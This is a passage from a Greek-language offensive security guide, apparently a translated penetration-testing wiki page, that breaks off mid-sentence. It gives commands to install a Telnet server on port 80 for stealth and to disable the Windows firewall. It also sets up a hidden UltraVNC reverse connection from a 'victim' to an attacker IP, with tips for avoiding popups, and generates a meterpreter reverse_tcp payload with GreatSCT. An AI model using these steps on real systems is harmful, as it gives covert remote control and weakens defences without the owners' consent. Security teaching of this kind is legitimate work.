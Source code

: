 ### **Telnet Server**

Μέχρι τα Windows 10, όλα τα Windows έρχονταν με έναν **διακομιστή Telnet** που μπορούσατε να εγκαταστήσετε (ως διαχειριστής) κάνοντας:
```bash
pkgmgr /iu:"TelnetServer" /quiet
```
Κάντε το **να ξεκινά** όταν εκκινείται το σύστημα και **τρέξτε** το τώρα:
```bash
sc config TlntSVR start= auto obj= localsystem
```
**Αλλαγή θύρας telnet** (stealth) και απενεργοποίηση του τείχους προστασίας:
```
tlntadmn config port=80
netsh advfirewall set allprofiles state off
```
### UltraVNC

Κατεβάστε το από: [http://www.uvnc.com/downloads/ultravnc.html](http://www.uvnc.com/downloads/ultravnc.html) (θέλετε τις λήψεις bin, όχι την εγκατάσταση)

**ΣΤΟΝ HOST**: Εκτελέστε το _**winvnc.exe**_ και ρυθμίστε τον διακομιστή:

* Ενεργοποιήστε την επιλογή _Απενεργοποίηση TrayIcon_
* Ορίστε έναν κωδικό πρόσβασης στο _VNC Password_
* Ορίστε έναν κωδικό πρόσβασης στο _View-Only Password_

Στη συνέχεια, μεταφέρετε το δυαδικό _**winvnc.exe**_ και το **νέο** αρχείο _**UltraVNC.ini**_ μέσα στον **θύμα**

#### **Αντίστροφη σύνδεση**

Ο **επιτιθέμενος** θα πρέπει να **εκτελέσει μέσα** στον **host** του το δυαδικό `vncviewer.exe -listen 5900` ώστε να είναι **έτοιμος** να πιάσει μια αντίστροφη **VNC σύνδεση**. Στη συνέχεια, μέσα στον **θύμα**: Ξεκινήστε τον δαίμονα winvnc `winvnc.exe -run` και εκτελέστε `winwnc.exe [-autoreconnect] -connect <attacker_ip>::5900`

**ΠΡΟΕΙΔΟΠΟΙΗΣΗ:** Για να διατηρήσετε την κρυψίνοια δεν πρέπει να κάνετε μερικά πράγματα

* Μην ξεκινήσετε το `winvnc` αν είναι ήδη σε εκτέλεση ή θα ενεργοποιήσετε ένα [popup](https://i.imgur.com/1SROTTl.png). ελέγξτε αν είναι σε εκτέλεση με `tasklist | findstr winvnc`
* Μην ξεκινήσετε το `winvnc` χωρίς το `UltraVNC.ini` στον ίδιο φάκελο ή θα προκαλέσει το άνοιγμα του [παραθύρου ρύθμισης](https://i.imgur.com/rfMQWcf.png)
* Μην εκτελείτε το `winvnc -h` για βοήθεια ή θα ενεργοποιήσετε ένα [popup](https://i.imgur.com/oc18wcu.png)

### GreatSCT

Κατεβάστε το από: [https://github.com/GreatSCT/GreatSCT](https://github.com/GreatSCT/GreatSCT)
```
git clone https://github.com/GreatSCT/GreatSCT.git
cd GreatSCT/setup/
./setup.sh
cd ..
./GreatSCT.py
```
Μέσα στο GreatSCT:
```
use 1
list #Listing available payloads
use 9 #rev_tcp.py
set lhost 10.10.14.0
sel lport 4444
generate #payload is the default name
#This will generate a meterpreter xml and a rcc file for msfconsole
```
Τώρα **ξεκινήστε τον καταχωρητή** με `msfconsole -r file.rc` και **εκτελέστε** το **xml payload** με: